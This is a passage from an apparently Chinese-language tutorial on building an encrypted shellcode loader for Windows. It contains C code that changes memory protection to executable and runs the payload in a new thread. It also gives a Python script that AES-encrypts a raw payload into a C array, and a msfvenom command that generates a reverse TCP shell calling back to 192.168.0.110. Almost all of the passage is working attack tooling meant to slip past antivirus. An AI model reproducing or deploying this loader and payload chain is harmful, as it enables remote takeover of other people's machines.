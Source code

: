```

    if (!VirtualProtect(alloc_mem, sizeof(payload), PAGE_EXECUTE_READ, &oldProtect)) {
        printf("Failed to change memory protection (%u)\n", GetLastError());
        return -2;
    }


    HANDLE tHandle = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)alloc_mem, NULL, 0, NULL);
    if (!tHandle) {
        printf("Failed to Create the thread (%u)\n", GetLastError());
        return -3;
    }

    printf("\n\nalloc_mem : %p\n", alloc_mem);
    WaitForSingleObject(tHandle, INFINITE);

    return 0;


    return TRUE;
    }
}
```
然后还需要写一个python脚本来打印出aes加密后的payload和aes解密的密钥
```
import sys
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
from os import urandom
import hashlib

def AESencrypt(plaintext, key):
    k = hashlib.sha256(KEY).digest()
    iv = 16 * b'\x00'
    plaintext = pad(plaintext, AES.block_size)
    cipher = AES.new(k, AES.MODE_CBC, iv)
    ciphertext = cipher.encrypt(plaintext)
    return ciphertext,key

  
def printResult(key, ciphertext):
    print('char AESkey[] = { 0x' + ', 0x'.join(hex(x)[2:] for x in KEY) + ' };')
    print('unsigned char payload[] = { 0x' + ', 0x'.join(hex(x)[2:] for x in ciphertext) + ' };')
    
try:
    file = open(sys.argv[1], "rb")
    content = file.read()
except:
    print("Usage: .\AES_cryptor.py PAYLOAD_FILE")
    sys.exit()


KEY = urandom(16)
ciphertext, key = AESencrypt(content, KEY)

printResult(KEY,ciphertext)
```
使用msf生成一个payload
```
msfvenom -p  windows/x64/shell_reverse_tcp lhost=192.168.0.110 lport=1234 -f raw > beacon.bin
```
然后用aes脚本加密payload
```
pip3 install pycryptodome
```